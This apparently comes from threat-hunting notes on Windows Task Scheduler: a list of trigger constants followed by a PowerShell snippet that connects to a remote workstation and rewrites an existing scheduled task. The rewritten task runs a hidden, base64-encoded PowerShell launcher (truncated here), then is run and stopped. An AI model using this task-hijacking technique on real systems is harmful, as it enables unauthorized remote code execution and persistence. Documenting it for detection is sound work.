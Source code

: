 ## Task Triggers
* TASK_TRIGGER_EVENT - 0 - Starts the task when a specific event occurs.
* TASK_TRIGGER_TIME - 1 - Starts the task at a specific time of day.
* TASK_TRIGGER_DAILY - 2 - Starts the task daily.
* TASK_TRIGGER_WEEKLY - 3 - Starts the task weekly.
* TASK_TRIGGER_MONTHLY - 4 - Starts the task monthly.
* TASK_TRIGGER_MONTHLYDOW - 5 - Starts the task every month on a specific day of the week.
* TASK_TRIGGER_IDLE - 6 - Starts the task when the computer goes into an idle state.
* TASK_TRIGGER_REGISTRATION - 7 - Starts the task when the task is registered.
* TASK_TRIGGER_BOOT - 8 - Starts the task when the computer boots.
* TASK_TRIGGER_LOGON - 9 - Starts the task when a specific user logs on.
* TASK_TRIGGER_SESSION_STATE_CHANGE - 11 - Triggers the task when a specific session state changes.

## Interact with Task Scheduler Remotely

### Powershell - Schedule.Service COM Object 
```Powershell
# connect to Task Scheduler:
$service = New-Object -ComObject Schedule.Service
$service.Connect("WORKSTATION6")

# Get task folder that contains tasks:
$folder = $service.GetFolder('\Microsoft\Windows\')

# Example: Root Task Container:
$folder = $service.GetFolder('\')

# Enumerate Specific Task
$ward0gtask = $folder.GetTask('Ward0g')
$alltasks = $folder.GetTasks(0)

# get task definition and change it (i.e Arguments)
$taskdefinition = $ward0gtask.Definition
$taskdefinition.Actions | ForEach-Object {$_.Path = "powershell"}
$taskdefinition.Actions | ForEach-Object {$_.Arguments = "-noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBFAFIAUwBpAE8ATgBUAGEAQgBMAGUALgBQAFMAVgBlAHIAUwBpAE8AbgAuAE0AY...."}

# write back changed task definition:
# 4 = Update
$folder.RegisterTaskDefinition($task.Name, $taskdefinition, 4, $null, $null, $null)

# Execute Task
$NewTask = $folder.GetTask("Ward0g")
$NewTask.run.Invoke(@(''))

# Stop Task
$NewTask.stop(0)
```

## Security Event Logs
